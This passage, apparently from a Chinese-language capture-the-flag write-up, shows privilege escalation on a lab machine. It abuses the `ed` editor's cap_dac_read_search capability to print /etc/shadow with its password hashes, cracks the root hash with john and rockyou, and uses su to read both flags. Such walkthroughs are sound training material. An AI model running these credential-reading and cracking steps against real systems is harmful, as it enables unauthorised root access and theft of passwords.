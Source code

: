 ### ed 编辑器利用原理

`ed` 是一个行编辑器，当它具有 `cap_dac_read_search` 能力时，可以读取任何文件，无视文件权限。可以通过管道命令实现自动化读取。

### 读取 /etc/shadow

```bash
$ echo ",p\nq" | /usr/bin/ed /etc/shadow
941
root:$6$OkwDvceFhTabwVGQ$noxBcQ9o14G0cTyNdu9EBOoq3AmB660NS5Usr83oGcJNjxezZrwA/5ME3smPLzoizro5LRFqFKQlbO42l4rvt1:20343:0:99999:7:::
...
c1trus:$6$p/7V81X3jW.t4UVk$p0QwkfnPmVwKd5G45ABhShw/bdysk8cCAOF7a2AU/rKcpjFbmeGEN2Wq6AyXcLLgq3ldpBMWDg7VSupIzy7w4/:20343:0:99999:7:::
```

命令解释：

- `,p` - 打印所有行（从第一行到最后一行）
- `q` - 退出编辑器

## 4.4 密码破解

将 root 用户的哈希保存到本地进行破解：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ echo 'root:$6$OkwDvceFhTabwVGQ$noxBcQ9o14G0cTyNdu9EBOoq3AmB660NS5Usr83oGcJNjxezZrwA/5ME3smPLzoizro5LRFqFKQlbO42l4rvt1' > hash

┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
...
bisrock          (root)
...
```

成功破解 root 密码：`bisrock`

# 五、获取 Flag

使用破解的密码切换到 root 用户：

```bash
$ su -
Password: bisrock
root@Next:~# cat /root/root.txt /home/c1trus/user.txt
flag{root_8812662dcf3e5db0247c0f85909363fc}
flag{user_d0cab90d8d20d57e2f2b9be52f7dd25d}
```

成功获取两个 flag：

- user flag: `flag{user_d0cab90d8d20d57e2f2b9be52f7dd25d}`
- root flag: `flag{root_8812662dcf3e5db0247c0f85909363fc}`
